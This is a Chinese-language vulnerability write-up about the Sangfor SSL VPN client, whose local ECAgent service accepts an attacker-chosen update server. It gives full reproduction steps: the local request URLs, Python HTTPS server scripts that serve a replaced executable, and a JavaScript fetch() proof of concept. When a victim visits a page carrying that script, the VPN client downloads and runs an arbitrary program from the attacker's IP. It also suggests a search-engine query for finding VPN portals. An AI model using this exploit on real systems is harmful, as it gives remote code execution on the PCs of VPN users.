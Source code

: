 # 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：



![](./images/202202091917573.png)



安装完之后访问VPN的页面，发现VPN会自动下载组件更新：



![](./images/202202091917218.png)



这些请求均为GET请求并附带着一些参数，我们把它一一列下来：



![](./images/202202091917102.png)



本地来看一下这个`54530`端口对应的进程是什么：

![](./images/202202091917296.png)



发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：



![](./images/202202091917851.png)



确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。



通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。



再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：



```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```



第一个初始化的请求存在可控参数arg1：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```



参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：



```plain
python -m SimpleHTTPServer
```



其他的请求原封不动，依次请求一遍那一份URL



服务端成功收到请求，但是却出现了错误的提示：



![](./images/202202091917373.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。



现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。



如下脚本基于Python库建立一个 HTTPS 服务：



```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：



![](./images/202202091918528.png)



可以看见客户端会访问两个文件：



```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```



先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：



```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。



最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。



依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```



会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：



![](./images/202202091918246.png)



Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：



```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```



其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。



![](./images/202202091918424.png)



## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg